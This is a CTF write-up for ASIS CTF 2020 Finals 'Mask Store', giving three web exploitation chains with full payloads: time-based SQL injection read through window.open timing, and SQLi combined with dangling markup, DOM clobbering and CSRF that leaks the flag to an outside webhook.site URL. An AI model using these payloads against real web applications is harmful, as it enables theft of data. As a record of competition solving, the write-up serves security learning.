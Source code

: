 ## ASIS CTF 2020 - Finals - Mask Store - 12 Solves

We (**Super Guesser**) got 3 unintended solutions

**1.** Using heavy queries in SQL injection to sleep for a while then with window.open and performance.now() leak the flag character by character
**2.** With SQL injection and dom clobbering+dangling markup redirect to /profile if the query was true then our profile will load an image to our webhook
**3.** Dangling markup to spoof lastElement of the document then SQLi+ CSRF to leak the flag through /report

**1.** We can't use `<iframe>` because the cookie is SameSite but headless chrome allows window.open by default
```
/panel?orderid='||(select if(substr(lpad(bin(ord(s
ubstr((select flag from secrets),{Flag Index},1)))
,7,0),{Decimal Character},1)=1,1,(select count(*) 
from orders a,orders b,orders c,orders d,orders e,
orders f,orders g,orders h,orders i,orders j,order
s k,orders l,orders m,orders n,orders o,orders p,o
rders q,orders r,orders s,orders t,orders u,orders
 v,orders w,orders x,orders y,orders z,orders aa,o
rders ab,orders ac,orders ad)))#
```

window.open to open the page then if the character is correct we will get **<60** millisecond time otherwise move to another character

**2.** In profile page will change our profile picture to a webhook if it got any hit then it write to another file 
```
/panel?orderid='+union+select+1,(CASE+WHEN+((selec
t+count(*)+from+secrets+where+flag+like+'ASIS{%')>
0)+THEN+0x3203c6f7264657220757569643d2231333337222
07473746172743d22313630373638333938362220646573637
2697074696f6e3d22414141414141414141414141412220737
4617475733d223122203e3c2f6f726465723e3c2f6469763e3
c666f726d20616374696f6e3d222f70726f66696c652f39666
564313738362d663238372d343837662d623632332d3237643
8393762666438643222206d6574686f643d22474554223e3c6
96e70757420747970653d2268696464656e22206e616d653d2
26f726465726964223e3c696e70757420747970653d2268696
464656e22206e616d653d22737461747573222076616c75653
d226c617465223e3c2f666f726d3e3c212d2d+ELSE+0x20+EN
D)#
```

decoded hex:
```
<order uuid="1337" tstart="1607683986" description
="AAAAAAAAAAAAA" status="1" ></order></div><form a
ction="/profile/9fed1786-f287-487f-b623-27d897bfd8
d2" method="GET"><input type="hidden" name="orderi
d"><input type="hidden" name="status" value="late"
></form><!--
```

It will automatically submit the form and redirect to our /profile if the character guessing is right after every window.open wait 2 seconds and check our webhook to see if we got a hit

**3.** Using `</div><form method=post action="/report"><form><input name=url value=><input value="` we can can override `document.body.lastElementChild.children[parseInt(1)];` and `form.children[0].value` then changing the form path to `/report` with the SQLi write the flag to end of our supplied URL that the admin will visit
```
/panel?orderid=' union select 1,concat(0x203c6f726
4657220757569643d2226237836383b747470733a2f2f77656
2686f6f6b2e736974652f32623862616466652d666432612d3
46265342d383630322d6466316234306636333166303f70726
f6669743d31,flag,0x22207473746172743d2231363037363
83339383622206465736372697074696f6e3d2241414141414
14141414141414122207374617475733d223122203e3c2f6f7
26465723e3c2f6469763e3c666f726d206d6574686f643d706
f737420616374696f6e3d222f7265706f7274223e3c666f726
d3e3c696e707574206e616d653d75726c2076616c75653d3e3
c696e707574206e616d653d666c61672076616c75653d22) f
rom secrets#
```

decoded:
```
<order uuid="&#x68;ttps://webhook.site/2b8badfe-fd
2a-4be4-8602-df1b40f631f0?profit={The Flag we got 
with SQLi}

" tstart="1607683986" description="AAA
AAAAAAAAAA" status="1" ></order></div><form method
=post action="/report"><form><input name=url value
=><input name=flag value="
```
*Thanks 💜*
